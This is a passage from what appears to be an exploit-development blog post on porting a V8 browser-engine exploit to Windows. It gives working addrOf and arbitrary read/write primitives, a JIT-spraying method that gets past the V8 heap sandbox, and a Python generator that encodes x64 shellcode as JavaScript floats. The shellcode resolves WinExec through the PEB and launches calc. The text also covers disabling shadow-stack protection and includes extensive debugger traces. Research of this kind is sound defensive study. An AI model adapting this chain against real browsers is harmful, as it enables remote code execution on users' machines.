Next, we place another double array, oobDblArr2, right after oobDblArr. By using the OOB write capability on oobDblArr, we overwrite the element field of oobDblArr2 to an object address. Accessing the elements of oobDblArr2 then enables us to read and write to arbitrary addresses.
The addrOf operation, that gets a JS object pointer are accomplished via the following code, along with the read and write primitives.
var oobDblArr = [0x41, 0x42, 0x51, 0x52, 1.5];
var oobDblArr2 = [0x41, 0x42, 1.5];
var oobObjArr = [view, 0x424242];
oobObjArr[0] = 0x414141;
function addrOf(obj, dblOffset) {
oobObjArr[0] = obj;
var addrDbl = oobDblArr[dblOffset];
return ftoi32(addrDbl)[0];
}
function read(addr, dblArrOffset) {
var oldValue = oobDblArr[dblArrOffset];
oobDblArr[dblArrOffset] = i32tof(addr, 2);
var out = ftoi32(oobDblArr2[0]);
oobDblArr[dblArrOffset] = oldValue;
return out;
}
function write(addr, val1, val2, dblArrOffset) {
var oldValue = oobDblArr[dblArrOffset];
oobDblArr[dblArrOffset] = i32tof(addr, 2);
oobDblArr2[0] = i32tof(val1, val2);
oobDblArr[dblArrOffset] = oldValue;
return;
}
addrOf and r/w Function
Until recent times, having such primitives would lead to the creation of RWX pages through Web Assembly and this would be pretty much game-over for the renderer process.
However, the newly introduce V8 heap sandbox mitigates the WASM technique by isolating the heap address space even further and making external memory access harder.
In order to bypass the V8 heap sandbox we need to resort to a quite recent technique named JIT spraying.
The idea is to abuse the function pointer located inside the code object of a JITted function and hijack it to point to the start of our shellcode instead.
JIT-spraying can be summarized with the following four steps:
-
We store the shellcode as a double array (or other suitable data structures) to store shellcode as floating-point numbers. More about this step in the next section.
-
Use the arbitrary read primitive to find the JIT-optimized code pointer in the JavaScript Function object.
-
Modify the JIT code pointer using the arbitrary write primitive to point to the desired location in the JIT code, instead of the original code flow.
-
Invoke the JITted shellcode function, which now points to the start of our shellcode instead of its original start address.
Let’s illustrate the concept by picking the related JIT-spraying code from our exploit.
function func() {
return [1.9711826951435894e-246, 1.971182297804913e-246, 1.9711823870029425e-246, 1.971182489416965e-246, 1.9485505705182829e-246, 1.9711823520879356e-246, 1.93080727203784e-246, 1.971182897965126e-246, 1.9560492656946336e-246, 1.9711824228538599e-246, 1.9895153914032175e-246, 1.9711828988902342e-246, 1.971182900238425e-246, -6.828932338446045e-229];
}
var funcAddr = addrOf(func, (objIndex - oobDblIndex) >> 1);
%DebugPrint(func);
console.log("func Addr: " + funcAddr.toString(16));
var dblOffset = (oobDbl2Index - oobDblIndex - 5) >> 1;
var codeAddr = read(funcAddr + 0x10, dblOffset)[0];
console.log("code Addr: " + codeAddr.toString(16));
var maglevAddr = read(codeAddr + 0x8, dblOffset);
console.log("maglev Addr: " + maglevAddr[1].toString(16) +maglevAddr[0].toString(16) + " " );
Math.sin();
write(codeAddr + 0x8, maglevAddr[0] + 0x80 + 2, maglevAddr[1], dblOffset);
%DebugPrint(func);
Math.sin();
func();
JIT-spraying Exploit Code
Here the code retrieve the func address via the addrOf primitives and then by dereferencing static offsets, it gets the code pointer.
Let’s DebugPrint the func object before any modification.
DebugPrint: 000001F10019B705: [Function] in OldSpace
- map: 0x01f100184131 <Map[32](HOLEY_ELEMENTS)> [FastProperties]
- prototype: 0x01f100184059 <JSFunction (sfi = 000001F100146745)>
- elements: 0x01f100000219 <FixedArray[0]> [HOLEY_ELEMENTS]
- function prototype:
- initial_map:
- shared_info: 0x01f10019aad9 <SharedFunctionInfo func>
- name: 0x01f10019a695 <String[4]: #func>
- formal_parameter_count: 0
- kind: NormalFunction
- context: 0x01f10019b595 <ScriptContext[5]>
- code: 0x01f1001a2741 <Code MAGLEV>
Printing func properties
Inspecting the Code MAGLEV object at 0x01f1001a2741 reveals the following details.
0:000> dq 0x01f1001a2741-1 L4
000001f1`001a2740 001a26a9`00000d91 9248d9b1`00000f61
000001f1`001a2750 00007ff6`9248d9c0 000003ac`000000ac
Inspecting the Code Object Pointers
At offset 0x10, we can observe 00007ff69248d9c0, which is the JIT-compiled code from the function func. Let’s disassemble it and verify its page permission.
0:000> u 7ff69248d9c0
00007ff6`9248d9c0 8b59f4 mov ebx,dword ptr [rcx-0Ch]
00007ff6`9248d9c3 4903de add rbx,r14
00007ff6`9248d9c6 f7431700000020 test dword ptr [rbx+17h],20000000h
00007ff6`9248d9cd 0f856d3afe9f jne d8!Builtins_CompileLazyDeoptimizedCode (00007ff6`32471440)
00007ff6`9248d9d3 49b9b9ba1900f1010000 mov r9,1F10019BAB9h
00007ff6`9248d9dd 410fb7490d movzx ecx,word ptr [r9+0Dh]
00007ff6`9248d9e2 f6c12e test cl,2Eh
00007ff6`9248d9e5 0f85e1010000 jne 00007ff6`9248dbcc
0:000> !address 7ff69248d9c0
...
Protect: 00000040 PAGE_EXECUTE_READWRITE
...
Inspecting the JIT Code and Memory Permissions
We have cnfirmed that the page is executable and so we can resume execution.
0:000> g
Breakpoint 0 hit
d8!Builtins_MathSin:
00007ff6`32560140 55 push rbp
0:000> dq 0x01f1001a2741-1 L4
000001f1`001a2740 001a26a9`00000d91 9e248d9b1`00000f61
000001f1`001a2750 00007ff6`9248da42 000003ac`000000ac
0:000> u 00007ff6`9248da42
00007ff6`9248da42 0349ba add ecx,dword ptr [rcx-46h]
00007ff6`9248da45 4883c360 add rbx,60h
00007ff6`9248da49 90 nop
00007ff6`9248da4a 90 nop
00007ff6`9248da4b eb0c jmp 00007ff6`9248da59
00007ff6`9248da4d c4c1f96ec2 vmovq xmm0,r10
00007ff6`9248da52 c5fb114707 vmovsd qword ptr [rdi+7],xmm0
00007ff6`9248da57 49ba654c8b039090eb0c mov r10,0CEB9090038B4C65h
Verifying That the JIT Function Pointers Is Now Referencing Our Shellcode
Once we hit the last breakpoint, we can analyze once more that the pointer has changed to 00007ff69248da42, thus leading to a different JIT code chunk.
And you might have guessed right, that’s our shellcode! We are going to analyze it further in the next section. Now it’s just a matter of invoking the function, and the code will be redirected to our controlled one.
We haven’t yet explored how these floating-point numbers are able to chain together a proper shellcode logic, so let’s cover this last bit in the next section.
JIT-Spraying Shellcode
While the JavaScript exploit detailed in the original blog post by Man Yue Mo is fully portable, the shellcode itself is limited to Linux systems.
As a first step, we want to figure out the mechanisms behdind the existing payload and then adjust it so it can run on Windows systems.
As discussed earlier, the newly implemented V8 heap sandbox, with its restrictive memory isolation, blocks the traditional method of writing Web Assembly RWX pages. As a consequence, we need to find an alternative approach to deliver and execute our payload.
The solution lies in JIT Spraying IEEE Immediate Numbers.
With JIT spraying, we JIT-compile our IEEE floating-point function into the desired shellcode that we previously generated via a Python script (more on that later). Then, by manipulating the function pointer through read and write operations, we divert the execution to the middle of the JIT code.
This technique will enable us to have floating-point data as javascript code that will be converted into the desired assembly code when JIT compiled.
To get a feeling about how the shellcode will look like in memory, let’s start with the following code snippet.
const shellcode = () =>{return [1.1, 2.2, 3.3];}
%PrepareFunctionForOptimization(shellcode);
shellcode();
%OptimizeFunctionOnNextCall(shellcode);
shellcode();
%DebugPrint(shellcode);
Testing IEEE Numbers within d8 Debugging Engine
The first line is the actual payload function named shellcode that takes no argument and returns an array containing three floating-point numbers: 1.1, 2.2, and 3.3. Next, we prepare the the function for JIT optimization via %PrepareFunctionForOptimization. It is an internal function used by the V8 engine to prepare JavaScript functions for optimization, which involves tasks such as profiling, analysis, and setting up optimization-related mechanisms.
After invoking the function, we then tell d8 to JIT compile the function on the next call with %OptimizeFunctionOnNextCall and then we finally invoke the optimized shellcode function. The DebugPrint statement from the last line will allow us to inspect the internals of the JIT-compiled function.
We can then aunch d8 with native syntax debugging option and load the code.
C:\v8_dev\v8\v8\out>x64.release\d8.exe --maglev --allow-natives-syntax
V8 version 11.5.150.16
d8> load("jitspray1.js")
...
Starting D8 With Natives-Syntax Option and Loading ‘Jitspray1.js’
The debug output gives information about the shellcode function’s internal representation in V8, including its memory address, map, prototype, elements.
DebugPrint: 000003C70004BF61: [Function]
- map: 0x03c7001841a5 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
- prototype: 0x03c700184059 <JSFunction (sfi = 000003C700146745)>
- elements: 0x03c700000219 <FixedArray[0]> [HOLEY_ELEMENTS]
- function prototype: <no-prototype-slot>
- shared_info: 0x03c70019a469 <SharedFunctionInfo shellcode>
- name: 0x03c70019a3f5 <String[9]: #shellcode>
- formal_parameter_count: 0
- kind: ArrowFunction
- context: 0x03c70019a525 <ScriptContext[3]>
- code: 0x03c70019ba29 <Code TURBOFAN>
...
Inspecting the ‘shellcode’ Function via the DebugPrint Statement.
The last line from the above listing shows the memory address of the code JS object compiled by Turbofan.
To further inspect the resulting JIT compiled code in memory we can fire up WinDbg and attach to the d8 process. From the debugger, we can inspect the first three qwords of the code object. To do so, we first need to subtract 1 from from the obj value. Why so? This is due to pointer tagging. Pointer tagging involves encoding additional information within pointers by using the least significant bits (LSBs). This helps V8 quickly distinguish between different types of data without extra memory overhead. The least significant bit of a pointer is used as a tag. If the LSB is 0, the pointer is a reference to an object. If the LSB is 1, the pointer represents a small integer.
0:017> dq 0x03c70019ba29-1 L3
000003c7`0019ba28 0019b995`00000d91 e0044031`00000f61
000003c7`0019ba38 00007ff6`e0044040
Inspecting the ‘code’ object
From the listing above, the first qword 0x03c700000d91 is the object MAP or Hidden Class, the second one 0x03c700000f61 is the position table. The position table is a data structure that maps bytecode instruction offsets to positions within the generated machine code. The last qword at address 00007FF6E0044040 is the instruction start, that points to the start of the JIT compiled assembly code, that we shall further analyze.
0:020> u 00007ff6`e0044040 L30
00007ff6`e0044040 8b59f4 mov ebx,dword ptr [rcx-0Ch]
00007ff6`e0044043 4903de add rbx,r14
00007ff6`e0044046 f7431700000020 test dword ptr [rbx+17h],20000000h
00007ff6`e004404d 0f85edd348a5 jne d8!Builtins_CompileLazyDeoptimizedCode (00007ff6`854d1440)
00007ff6`e0044053 55 push rbp
00007ff6`e0044054 4889e5 mov rbp,rsp
00007ff6`e0044057 56 push rsi
00007ff6`e0044058 57 push rdi
00007ff6`e0044059 50 push rax
...
00007ff6`e0044094 49ba9a9999999999f13f mov r10,3FF199999999999Ah
00007ff6`e004409e c4c1f96ec2 vmovq xmm0,r10
00007ff6`e00440a3 c5fb114107 vmovsd qword ptr [rcx+7],xmm0
00007ff6`e00440a8 49ba9a99999999990140 mov r10,400199999999999Ah
00007ff6`e00440b2 c4c1f96ec2 vmovq xmm0,r10
00007ff6`e00440b7 c5fb11410f vmovsd qword ptr [rcx+0Fh],xmm0
00007ff6`e00440bc 49ba6666666666660a40 mov r10,400A666666666666h
Analyzing the JIT Compiled Code in Memory
The last seven lines are responsible for moving our three floating-point digits into memory. The numbers are stored first into the r10 register and then moved into the xxm0 register. XMM registers are part of the SIMD (Single Instruction, Multiple Data) architecture extensions in x86 and x86-64 processors and mainly used for performing vectorized operations on floating-point and integer data.
We can verify the float representation of the first hexadecimal value (1.1) with the .formats. WinDbg utility.
0:020> .formats 3FF199999999999Ah
Evaluate expression:
Hex: 3ff19999`9999999a
Decimal: 4607632778762754458
Decimal (unsigned) : 4607632778762754458
Octal: 0377614631463146314632
Binary: 00111111 11110001 10011001 10011001 10011001 10011001 10011001 10011010
Chars: ?.......
Time: Mon Jan 4 09:24:36.275 16202 (UTC + 2:00)
Float: low -1.58819e-023 high 1.8875
Double: 1.1
Converting the Floating-Point Value
Now, let’s remind us of our main objective: we have to use the 8-byte structure commonly used for representing floating-point values to directly encode our shellcode instructions. By embedding these instructions within the V8 isolated heap memory in the form of ‘floating-number shaped shellcode’, we can then transform them into the required shellcode assembly instructions as soon as the JavaScript function gets JIT-compiled.
We’ll then have to link these encoded instructions together using short jump commands, creating a more reliable exploit strategy. Let’s see how can we accomplish this.
First, we verify whether the memory page belonging to the JIT code is writable and executable.
0:017> !vprot 00007ff6`e0044040
BaseAddress: 00007ff6e0044000
AllocationBase: 00007ff6e0000000
AllocationProtect: 00000001 PAGE_NOACCESS
RegionSize: 000000000003b000
State: 00001000 MEM_COMMIT
Protect: 00000040 PAGE_EXECUTE_READWRITE
Type: 00020000 MEM_PRIVATE
Veryfing JIT Code Memory Permission
Having confirmed so, we can replicate what we did on d8 previously with a new different function named shellcode2.
const shellcode2 = () =>{return[1.9711828988902654e-246, 1.9711828988941678e-246, -6.82852703444537e-229];}
%PrepareFunctionForOptimization(shellcode2);
shellcode2();
%OptimizeFunctionOnNextCall(shellcode2);
shellcode2();
%DebugPrint(shellcode2);
The shellcode2 Function
The only difference with our previous code snippet, is that the function returns three different floats, 1.9711828988902654e-246, 1.9711828988941678e-246, -6.82852703444537e-229 as first, second and third values respectively, instead of 1.1, 2.2 and 3.3 that we had earlier.
The first new float, __1.9711828988902654e-246 is the hex representation of the a break point, five nops and a short jump.
cc int 3
90 nop
90 nop
90 nop
90 nop
90 nop
eb0c jmp
The Encoded Instruction in the First Floating Point.
The second and third values are just similar int3/nop iterations of the first one.
But how do we know in advance which given assembly instruction is mapped to a specific float value? We’ll solve that bit of the puzzle in a moment. For now, let’s assume we have managed to correctly convert our shellcode to floating point numbers.
By opening d8 once more and attaching WinDbg to it, we can inspect the resulting code section of shellcode2 by repeating the steps we did previously.
Once found the instruction start from the code object, we can inspect the first 30 qwords from it, similarly to what we did before.
0:020> u 00007ff6`e0044040 L30
...
00007ff6`e0044094 49bacc9090909090eb0c mov r10,0CEB9090909090CCh
00007ff6`e004409e c4c1f96ec2 vmovq xmm0,r10
00007ff6`e00440a3 c5fb114107 vmovsd qword ptr [rcx+7],xmm0
00007ff6`e00440a8 49bacccc90909090eb0c mov r10,0CEB90909090CCCCh
00007ff6`e00440b2 c4c1f96ec2 vmovq xmm0,r10
00007ff6`e00440b7 c5fb11410f vmovsd qword ptr [rcx+0Fh],xmm0
00007ff6`e00440bc 49bacccc909090909090 mov r10,909090909090CCCCh
Regular Float Moving Instructions
Nothing seems different at first glance, but what happens if we start disassembling from an offset of 2 bytes instead?
0:020> u 00007ff6`e0044094+2
00007ff6`e0044096 cc int 3
00007ff6`e0044097 90 nop
00007ff6`e0044098 90 nop
00007ff6`e0044099 90 nop
00007ff6`e004409a 90 nop
00007ff6`e004409b 90 nop
00007ff6`e004409c eb0c jmp 00007ff6`e00440aa
00007ff6`e004409e c4c1f96ec2 vmovq xmm0,r10
Simple Floating-Point Based Shellcode
Yes, that’s our shellcode and as mentioned, it begins with a breakpoint, followed by five NOPs and a short jump. The final jmp allows us to hop over the unwanted vmovq instruction, allowing execution to continue to the next shellcode part located at memory address 00007ff6e00440aa.
0:020> u 00007ff6`e00440aa
00007ff6`e00440aa cc int 3
00007ff6`e00440ab cc int 3
00007ff6`e00440ac 90 nop
00007ff6`e00440ad 90 nop
00007ff6`e00440ae 90 nop
00007ff6`e00440af 90 nop
00007ff6`e00440b0 eb0c jmp 00007ff6`e00440be
0:020> u 00007ff6`e00440be
00007ff6`e00440be cc int 3
00007ff6`e00440bf cc int 3
00007ff6`e00440c0 90 nop
00007ff6`e00440c1 90 nop
00007ff6`e00440c2 90 nop
00007ff6`e00440c3 90 nop
00007ff6`e00440c4 90 nop
00007ff6`e00440c5 90 nop
The Second and Third Floats Represented as Instructions
We can use the jump trick again to chain all the remaining shellcode blocks together. Even though floating-point values are stored as an 8-byte value, we can encode only 6 bytes at a time. This is due to the fact that we need a two-byte short jump instruction for each shellcode segment.
Now, the question still bugs us: how do we convert assembly shellcode into a floating-point JavaScript payload? To generate our target JS shellcode, we can rely on a Python script that converts assembly instructions into floating-point values. We’ll use the pwntools library to handle the heavy lifting of generating the assembly code.
from pwn import *
import struct
context(arch='amd64')
jmp = b'\xeb\x0c'
values = []
def make_double(code):
assert len(code) <= 6
hex_value = hex(u64(code.ljust(6, b'\x90') + jmp))[2:]
double_value = struct.unpack('!d', bytes.fromhex(hex_value.rjust(16, '0')))[0]
values.append(double_value)
make_double(asm("int3;"))
# placeholder for more shellcode instructions
code = asm("int3;int3;")
assert len(code) <= 8
hex_value = hex(u64(code.ljust(8, b'\x90')))[2:]
double_value = struct.unpack('!d', bytes.fromhex(hex_value.rjust(16, '0')))[0]
values.append(double_value)
js_function = f'''
function func() {{
return [{', '.join(map(str, values))}];
}}
'''
print(js_function)
JS Floating-Point Shellcode Generator
This code snippet imports the necessary libraries and sets up the environment for generating shellcode. It defines a function make_double() that encodes shellcode assembly instructions into double-precision floating-point numbers.
The encoded values are stored in a list names values. Finally, it generates a JavaScript function func() that returns an array of these encoded floating-point numbers, which we can copy and paste into our final exploit.
Having devised a way to automate shellcode generation, we’ll now need to create a Windows specific shellcode since the original exploits contains a standard Linux execve shellcode.
Since we are using a spraying technique to deliver our payload, for stability and reliability reasons, it’s better to keep it fairly concise in size. For the sake of this blog post, our best shot is calling WinExec to spawn a calculator.
To simplify the process, we’ll break down this step into two parts. The initial part of our shellcode will focus on locating the address of the WinExec function. The second one will handle passing the “calc” string as an argument.
The WinExe API is exported by the KERNEL32 DLL, so we need a way to locate the base address of KERNEL32. This can be achieved by parsing the Process Environment Block.
The Process Environment Block (PEB) is a data structure used by Windows to store information about a process. Within the PEB structure, there is a field called Ldr (Loader), which points to a linked list of loaded modules called the InMemoryOrderModuleList. This list contains information about the modules (DLLs) loaded into the process’s address space, including their base addresses, sizes, and other attributes. We can parse InMemoryOrderModuleList in order to get KERNEL32 base address and add WinExec static offset to it.
Let’s verify how can we accomplish this with the first portion of our shellcode.
make_double(asm("int3;add rbx,0x60;"))
make_double(asm("mov r8,qword ptr gs:[rbx];"))
make_double(asm("mov rdi,qword ptr [r8+0x18];"))
make_double(asm("mov rdi,qword ptr [rdi+0x30];"))
make_double(asm("mov rdi,qword ptr [rdi];mov rdi,qword ptr [rdi];"))
make_double(asm("mov rax,qword ptr [rdi+0x10];"))
make_double(asm("add rax,0x686c0;"))
Shellcode part that Locates WinExec Location
At the beginning, we have a software breakpoint instruction (int3) for debugging purposes. Following that, we adjust the rbx register by adding 0x60. At the offset of 0x60 from the GS register, we can retrieve the Process Environment Block (PEB) base address and store it in R8.
On the next line, we dereference the address at the 0x18 offset from the PEB and store it in RDI, representing the Ldr structure. To retrieve the InMemoryOrderModuleList from it, on line 4, we dereference the address at offset 0x30 from RDI.
Since KERNEL32 is the third loaded DLL in memory (after V8.dll and NTDLL.dll), we need iterate over the list two times. To achieve this, on lines 5 and 6, we load two 64-bit values from memory into the RDI register twice. Finally, at offset 0x10 from the PEB_LDR_DATA structure, we find the DllBase member containing the KERNEL32 base address. In the last line, we add the hardcoded WinExec offset to the KERNEL32 base address.
Now that we have retrieved the address of WinExec, we need a way to craft the function arguments. By reviewing WinExec function prototype, we learn that the first argument (RCX) is a pointer to a aerrass null-terminated string that specifies the command-line string to be executed. The second argument (RDX) is uCmdShow. which will be set to 1 in order to display the calculator window. Here’s the second part of the Python script that accomplishes what discussed. aaaassb
calc = u64(b'calc\x00\x00\x00\x00')
...
make_double(asm("push %d; pop rcx;" % (calc >> 0x20)))
make_double(asm("push %d; pop rdx;" % (calc % 0x100000000)))
make_double(asm("shl rcx, 0x20;"))
make_double(asm("add rcx,rdx;xor rdx,rdx;"))
make_double(asm("push rcx;"))
make_double(asm("mov rcx,rsp;"))
code = asm("inc rdx;call rax")
Shellcode Part That Loads the Two Function Arguments and Calls WinExec
We start by declaring the first argument, that is the null terminated calc string variable as unsigned 64-bit integer. On the the first line from the above assembly code, we push the high 32 bits of the calc variable to the stack and then pop it into the RCX register. Next, we load the low 32 bits of calc onto the stack and then move it to the rdx register. Next, on line three. we shift the contents of RCX left by 32 bits to position the high bits of calc correctly. Then on line four, we add together the high and low bits of calc in RCX, thus restoring the calc string original state. As last instruction we clear out the value of RDX, which will become 1 later on.
We then push the string stored in RCX to the stack and dereference RSP into RCX. This will to set up the first WinExec argument, the pointer to a null-terminated string. Finally, we increment the value of the second function argument in RDX and call the function pointed to by RAX, that is the WinExec function address we stored earlier.
Here’s the complete python code that generates our floating-point shellcode.
from pwn import *
import struct
context(arch='amd64')
jmp = b'\xeb\x0c'
calc = u64(b'calc\x00\x00\x00\x00')
values = []
def make_double(code):
assert len(code) <= 6
hex_value = hex(u64(code.ljust(6, b'\x90') + jmp))[2:]
double_value = struct.unpack('!d', bytes.fromhex(hex_value.rjust(16, '0')))[0]
values.append(double_value)
make_double(asm("int3;add rbx,0x60;"))
make_double(asm("mov r8,qword ptr gs:[rbx];"))
make_double(asm("mov rdi,qword ptr [r8+0x18];"))
make_double(asm("mov rdi,qword ptr [rdi+0x30];"))
make_double(asm("mov rdi,qword ptr [rdi];mov rdi,qword ptr [rdi];"))
make_double(asm("mov rax,qword ptr [rdi+0x10];"))
make_double(asm("add rax,0x686c0;"))
make_double(asm("push %d; pop rcx;" % (calc >> 0x20)))
make_double(asm("push %d; pop rdx;" % (calc % 0x100000000)))
make_double(asm("shl rcx, 0x20;"))
make_double(asm("add rcx,rdx;xor rdx,rdx;"))
make_double(asm("push rcx;"))
make_double(asm("mov rcx,rsp;"))
code = asm("inc rdx;call rax")
assert len(code) <= 8
hex_value = hex(u64(code.ljust(8, b'\x90')))[2:]
double_value = struct.unpack('!d', bytes.fromhex(hex_value.rjust(16, '0')))[0]
values.append(double_value)
js_function = f'''
function func() {{
return [{', '.join(map(str, values))}];
}}
'''
print(js_function)
Final Shellcode Generator Python script
Once transferred on a Kali machine and installed all the pwntools prerequisites, we can run the shellcode generator script as follows.
kali@kali:~$ python3 shellcodegen.py
function func() {
return [1.9711307397450932e-246, 1.971182297804913e-246, 1.9711823870029425e-246, 1.971182489416965e-246, 1.9485505705182829e-246, 1.9711823520879356e-246, 1.93080727203784e-246, 1.9557721589530414e-246, 1.9560492656946336e-246, 1.9711824228538599e-246, 1.9895153914032175e-246, 1.9711823207355042e-246, 1.971182900238425e-246, -6.828932338446045e-229];
}
Running the Shellcode Generator Script to Generate the JS Payload
The resulting Windows shellcode can then be pasted into the existing exploit to replace the Linux one.
...
var bigIntView = new BigInt64Array(view);
function func() {
return [1.9711307397450932e-246, 1.971182297804913e-246, 1.9711823870029425e-246, 1.971182489416965e-246, 1.9485505705182829e-246, 1.9711823520879356e-246, 1.93080727203784e-246, 1.9557721589530414e-246, 1.9560492656946336e-246, 1.9711824228538599e-246, 1.9895153914032175e-246, 1.9711823207355042e-246, 1.971182900238425e-246, -6.828932338446045e-229];
}
for (let i = 0; i < 1000; i++) func(0);
...
Inserting the New Payload in the Final Exploit
As the latest d8 is shipped with the new Hardware-enforced Stack Protection compiler mitigation, if we run the final exploit we’ll get an exception due to the mitigation not being fully supported yet.
(4fcc.5aec): Security check failure or stack buffer overrun - code c0000409 (!!! second chance !!!)
Subcode: 0x39 FAST_FAIL_CONTROL_INVALID_RETURN_ADDRESS Shadow stack violation
d8!Builtins_InterpreterOnStackReplacement_ToBaseline+0x9d:
00007ff6`7e96101d c3 ret
Triggering Shadow Stack violation
For this reason, in order to debug our code, we need to make sure Intel CET mitigation is disabled for the d8 executable.
We can do so under the Exploit Protection settings and specifying the exact path of our d8 location.
 Specifying the Location of the d8 Executable
We then click on ‘Edit’ and ovverride the default settings as illustrated below.
 Disabling Shadow Stack Mitigation for d8 Executable
As we are ready to test the full exploit, we can start the d8 process from Windbg along with the –maglev flag and the path of the JavaScript exploit.
 Debugging the Final Version of the Exploit
Once we hit the initial debugger default breakpoint, we can resume execution and hit the first shellcode instruction, that is the int3 breakpoint we placed at the very beginning.
(2eb8.155c0): Break instruction exception - code 80000003 (first chance)
ntdll!LdrpDoDebuggerBreak+0x30:
00007ff8`8eacb784 cc int 3
0:000> g
ModLoad: 00007ff8`8d770000 00007ff8`8d7a1000 C:\WINDOWS\System32\IMM32.DLL
ModLoad: 00007ff8`8c8f0000 00007ff8`8c9e3000 C:\WINDOWS\System32\shcore.dll
ModLoad: 00007ff8`8c3e0000 00007ff8`8c45a000 C:\WINDOWS\System32\bcryptPrimitives.dll
ModLoad: 00007ff8`8ae60000 00007ff8`8ae78000 C:\WINDOWS\SYSTEM32\kernel.appcore.dll
ModLoad: 00007ff8`8b530000 00007ff8`8b53c000 C:\WINDOWS\SYSTEM32\CRYPTBASE.DLL
(2eb8.155c0): Break instruction exception - code 80000003 (first chance)
00007ff6`e004d9c5 cc int 3
Hitting the First Shellcode Instruction
We can now verify the content of the code that is going to be executed by disassembling the next four instructions.
0:000> u rip L4
00007ff6`e004d9c5 cc int 3
00007ff6`e004d9c6 4883c360 add rbx,60h
00007ff6`e004d9ca 90 nop
00007ff6`e004d9cb eb0c jmp 00007ff6`e004d9d9
First Shellcode Chunk
Indeed, we can notice they resemble the first part of the shellcode from the Python code. Additionally, we can observe that the script has filled the blanks with a nop instruction and correctly inserted the short jump eb0c, which transfers execution to the second chunk.
If we keep stepping into the functon, we reach a point where we obtain the PebLdr and the InMemoryOrderModuleList linked list.
...
0:000> t
...
00007ff6`e004d9ed 498b7818 mov rdi,qword ptr [r8+18h] ds:0000003e`34b74018={ntdll!PebLdr (00007ff8`8eb763e0)}
0:000>
00007ff6`e004d9f1 90 nop
0:000>
00007ff6`e004d9f2 90 nop
0:000>
00007ff6`e004d9f3 eb0c jmp 00007ff6`e004da01
0:000>
00007ff6`e004da01 488b7f30 mov rdi,qword ptr [rdi+30h] ds:00007ff8`8eb76410=000001ef35132870
0:000> t
00007ff6`e004da05 90 nop
0:000>
00007ff6`e004da06 90 nop
0:000>
00007ff6`e004da07 eb0c jmp 00007ff6`e004da15
0:000>
00007ff6`e004da15 488b3f mov rdi,qword ptr [rdi] ds:000001ef`35132870=000001ef35137ee0
0:000>
00007ff6`e004da18 488b3f mov rdi,qword ptr [rdi] ds:000001ef`35137ee0=000001ef35137930
0:000>
00007ff6`e004da1b eb0c jmp 00007ff6`e004da29
0:000>
00007ff6`e004da29 488b4710 mov rax,qword ptr [rdi+10h] ds:000001ef`35137940={KERNEL32!Module32NextW <PERF> (KERNEL32+0x0) (00007ff8`8e040000)}
0:000> dq rdi
000001ef`35137930 000001ef`35139e70 000001ef`35137ee0
000001ef`35137940 00007ff8`8e040000 00007ff8`8e0525e0
0:000> lm m kernel32
Browse full module list
start end module name
00007ff8`8e040000 00007ff8`8e104000 KERNEL32 (pdb symbols) C:\ProgramData\Dbg\sym\kernel32.pdb\ECF8474815CE300AEB3AD59F5913B35B1\kernel32.pdb
Verifying the KERNEL32 Base Address
After walking the linked list twice, we can dereference and save into RAX the value at offset 0x10 from RDI, that is the base address of KERNEL32.
From that, we then add the static offset in order to gather WinExec memory address.
00007ff6`e004da2d 90 nop
0:000>
00007ff6`e004da2e 90 nop
0:000>
00007ff6`e004da2f eb0c jmp 00007ff6`e004da3d
0:000>
00007ff6`e004da3d 4805c0860600 add rax,686C0h
0:000>
00007ff6`e004da43 eb0c jmp 00007ff6`e004da51
0:000> u rax
KERNEL32!WinExec:
00007ff8`8e0a86c0 488bc4 mov rax,rsp
00007ff8`8e0a86c3 48895810 mov qword ptr [rax+10h],rbx
00007ff8`8e0a86c7 48897018 mov qword ptr [rax+18h],rsi
00007ff8`8e0a86cb 48897820 mov qword ptr [rax+20h],rdi
00007ff8`8e0a86cf 55 push rbp
00007ff8`8e0a86d0 488d68c8 lea rbp,[rax-38h]
00007ff8`8e0a86d4 4881ec30010000 sub rsp,130h
00007ff8`8e0a86db 488b050e0b0500 mov rax,qword ptr [KERNEL32!_security_cookie (00007ff8`8e0f91f0)]
Verifying the KERNEL32 Base Address
Once the offset has been added to RAX, we can verify that the resolved address matches the WinExec function.
NOTE: Using static offsets to resolve functions is not recommended because offsets might change in future releases or even patch versions. While this approach has been taken for the sake of conciseness, readers are encouraged to upgrade the existing shellcode to a version-independent one.
Moving on, we can inspect how the string for the first WinExec argument is stored into RCX.
0:000> t
00007ff6`e004da51 682e657865 push 6578652Eh
0:000>
00007ff6`e004da56 59 pop rcx
0:000>
00007ff6`e004da57 eb0c jmp 00007ff6`e004da65
0:000>
00007ff6`e004da65 6863616c63 push 636C6163h
0:000>
00007ff6`e004da6a 5a pop rdx
0:000>
00007ff6`e004da6b eb0c jmp 00007ff6`e004da79
0:000>
00007ff6`e004da79 48c1e120 shl rcx,20h
0:000>
00007ff6`e004da7d 90 nop
0:000> .formats rcx
Evaluate expression:
Hex: 00000000`00000000
Decimal: 0
Decimal (unsigned) : 0
Octal: 0000000000000000000000
Binary: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
Chars: ........
Time: unavailable
Float: low 0 high 0
Double: 0
Inspecting the high 32-bit of the first WinExec argument
Once the first 32-bit part of the string is popped into RCX (all zeroes) it is then shiftet 0x32 bit to the left. We can verify the characters value in RCS with the .formats rcx command.
0:000> t
00007ff6`e004da7e 90 nop
0:000>
00007ff6`e004da7f eb0c jmp 00007ff6`e004da8d
0:000>
00007ff6`e004da8d 4801d1 add rcx,rdx
0:000>
00007ff6`e004da90 4831d2 xor rdx,rdx
0:000> .formats rcx
Evaluate expression:
Hex: 00000000`636c6163
Decimal: 1668047203
Decimal (unsigned) : 1668047203
Octal: 0000000000014333060543
Binary: 00000000 00000000 00000000 00000000 01100011 01101100 01100001 01100011
Chars: ....clac
Time: Thu Nov 10 03:26:43 2022
Float: low 4.36045e+021 high 0
Double: 8.24125e-315
Inspecting the low 32-bit of the first WinExec argument
The entire string is now completed by adding the second 32-bit from RDX to RCX and we can notice the “calc” string in reverse order.
Now we have to push the string onto the stack, and then we move the stack pointer address back to RCX, so that RCX will store a string pointer. After that we then set RDX to 1.
0:000> t
00007ff6`e004daa1 51 push rcx
...
0:000>
00007ff6`e004daa7 eb0c jmp 00007ff6`e004dab5
0:000>
00007ff6`e004dab5 4889e1 mov rcx,rsp
...
0:000>
00007ff6`e004dabb eb0c jmp 00007ff6`e004dac9
...
0:000>
00007ff6`e004dac9 48ffc2 inc rdx
Storing the string pointer into RCX and setting RDX to 1
We are now ready to call WinExec and step into it to verify the two function arguments.
0:000>
